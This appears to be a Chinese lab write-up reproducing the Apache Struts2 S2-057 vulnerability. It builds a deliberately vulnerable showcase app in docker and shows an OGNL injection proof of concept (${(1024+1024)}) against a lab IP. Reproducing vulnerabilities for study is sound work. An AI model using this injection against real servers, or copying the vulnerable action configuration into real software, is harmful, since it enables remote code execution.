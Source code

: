 ﻿# S2-057 漏洞复现


靶机系统：ubuntu 16.04

# 0x01 搭建struts2

利用`vulhub`来搭建，需要在ubuntu在安装好docker

docker安装选择阿里云的源，不然会连接失败，还有需要root权限。详细参考：[Ubuntu 16.04 安装 Docker][1]

安装好后 `docker version` 验证是否成功
![](./1.jpg)

成功后安装`vulhub`

```
git clone https://github.com/vulhub/vulhub
cd vulhub/struts2/s2-048
docker-compose up -d

```



# 0x02 搭建st2-057漏洞环境

`docker ps`查看CONTAINER ID
![](./2.png)

```
docker exec -i -t 上面的CONTAINER_ID /bin/bash
```

因为Struts 2.5.16存在s2-057漏洞，所以去下载这个版本

然后运行
```
apt-get update -y
mkdir /usr/local/tomcat/webapps/test
wget https://fossies.org/linux/www/legacy/struts-2.5.16-all.zip
apt-get install unzip -y
unzip struts-2.5.16-all.zip
cp struts-2.5.16/apps/struts2-showcase.war /usr/local/tomcat/webapps/
```

好了后就可以看到有了这个目录

![](./3.jpg)

然后需要修改2个配置文件
`/usr/local/tomcat/webapps/struts2-showcase/WEB-INF/classes/struts-actionchaining.xml
/usr/local/tomcat/webapps/struts2-showcase/WEB-INF/src/java/struts-actionchaining.xml`

修改为：
```
<struts>
    <package name="actionchaining" extends="struts-default">
        <action name="actionChain1" class="org.apache.struts2.showcase.actionchaining.ActionChain1">
           <result type="redirectAction">
             <param name = "actionName">register2</param>
           </result>
        </action>
    </package>
</struts>
```
然后重新启动服务,

```
cd /usr/local/tomcat/bin/
./shutdown.sh 
docker-compose up -d
```

漏洞环境搭建完成
![](./4.jpg)


# 0x04  漏洞复现
靶机地址：`http://192.168.96.130:8080/struts2-showcase/`

命令执行：`http://192.168.96.130:8080/struts2-showcase/${(1024+1024)}/actionChain1.action`

payload：`${(1024+1024)}`

返回了：`http://192.168.96.130:8080/struts2-showcase/2048/register2.action`

执行了命令

![](./5.jpg)

到此漏洞复现成功

# 0x05 参考链接

```
https://github.com/vulhub/vulhub/tree/master/struts2/s2-048
https://github.com/jas502n/St2-057
https://lgtm.com/blog/apache_struts_CVE-2018-11776
https://www.anquanke.com/post/id/157518
https://bbs.ichunqiu.com/thread-44733-1-1.html

```


  [1]: https://www.cnblogs.com/penmily/p/7026964.html
